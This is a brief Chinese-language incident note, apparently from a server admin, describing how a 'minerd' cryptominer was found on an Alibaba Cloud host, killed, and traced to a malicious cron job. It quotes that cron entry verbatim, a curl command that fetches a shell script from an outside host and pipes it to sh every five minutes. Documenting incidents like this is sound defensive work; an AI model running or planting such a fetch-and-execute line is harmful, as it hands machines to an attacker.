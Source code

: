 # 服务器被攻击小计

今天看到阿里云的控制台 cpu始终使用率为100%,很明显不正常
top 查看进程
进程里面 minerd cpu使用率99% 应该是被别人挂马了
ls -l /proc/$PID/exe
![请输入图片描述][1]
(ps -ef | grep minerd)

kill $PID;
//结果过一会又出现了
![请输入图片描述][2]
再杀进程 然后chmod 000 /opt/minerd

这种木马肯定还有别的东西来保证他的运行,想到了定时任务
crontab -e 查看了一下
![请输入图片描述][3]
果然还是存在定时任务的 每五分钟执行一次 先把定时任务删除掉
*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh
去这个地址下载shell
下面是内容![请输入图片描述][4]

原因正在排查,很可能是因为web服务器为了省事用的root用户,现已全修改为www用户


  [1]: http://ww1.sinaimg.cn/large/0063sFGSgy1fdc9jqp5sqj30az01qjr9
  [2]: http://ww1.sinaimg.cn/large/0063sFGSgy1fdc9p7h1d6j30ij055mx5
  [3]: http://ww1.sinaimg.cn/large/0063sFGSgy1fdc9v2s106j30lj06z0sz
  [4]: http://ww1.sinaimg.cn/large/0063sFGSgy1fdc9ydr0lij30ry0frjsp
